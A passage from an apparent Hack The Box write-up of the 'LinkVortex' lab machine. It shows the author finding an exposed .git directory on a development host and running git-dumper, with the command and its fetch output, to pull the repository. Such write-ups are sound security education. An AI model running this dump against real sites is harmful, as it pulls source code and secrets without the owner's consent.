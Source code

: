 I found one interesting directory that is `.git`. Let's visit `http://dev.linkvortex.htb/.git`.

![.git directory](/assets/images/writeups/LinkVortex-HTB/3.png)

While Googling for some time to see how I could make use of `.git` directory to find interesting information. I came across a tool called `git-dumper`. 

[__`git-dumper`__](https://github.com/arthaud/git-dumper){:target="_blank"} - A tool to dump a git repository from a website.

It requires the url and the output directory. Let'	s utilise this tool.

```bash
python3 git_dumper.py http://dev.linkvortex.htb/.git ~/dev_linkvortex_git_dump

[-] Testing http://dev.linkvortex.htb/.git/HEAD [200]
[-] Testing http://dev.linkvortex.htb/.git/ [200]
[-] Fetching .git recursively
[-] Fetching http://dev.linkvortex.htb/.gitignore [404]
[-] http://dev.linkvortex.htb/.gitignore responded with status code 404
[-] Fetching http://dev.linkvortex.htb/.git/ [200]
[-] Fetching http://dev.linkvortex.htb/.git/refs/ [200]
[-] Fetching http://dev.linkvortex.htb/.git/packed-refs [200]
[-] Fetching http://dev.linkvortex.htb/.git/config [200]
[-] Fetching http://dev.linkvortex.htb/.git/info/ [200]
[-] Fetching http://dev.linkvortex.htb/.git/description [200]
[-] Fetching http://dev.linkvortex.htb/.git/index [200]
[-] Fetching http://dev.linkvortex.htb/.git/HEAD [200]
[-] Fetching http://dev.linkvortex.htb/.git/objects/ [200]
[-] Fetching http://dev.linkvortex.htb/.git/shallow [200]
[-] Fetching http://dev.linkvortex.htb/.git/logs/ [200]
```
